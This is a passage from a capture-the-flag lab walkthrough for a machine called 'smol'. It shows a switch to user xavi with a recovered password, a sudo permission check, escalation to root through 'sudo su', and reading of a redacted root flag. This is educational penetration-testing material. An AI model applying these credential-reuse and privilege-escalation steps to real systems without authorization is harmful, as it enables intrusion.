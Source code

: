 We got xavi user’s password too, now let’s switch to user xavi:

```bash
gege@smol:~$ su xavi
Password: 
xavi@smol:/home/gege$ id
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
```

---

### Shell as root:

We can check user xavi’s sudo permissions:

```bash
xavi@smol:/home/gege$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
```

Xavi can run any command with sudo privileges, so let’s just switch to super user “root”

```bash
xavi@smol:/home/gege$ sudo su
root@smol:/home/gege$ cd /root
root@smol:~$ ls
root.txt snap
root@smol:~$ cat root.txt
bf89ea3ea0.....REDACTED
```

That’s it ! We are root now!!!!
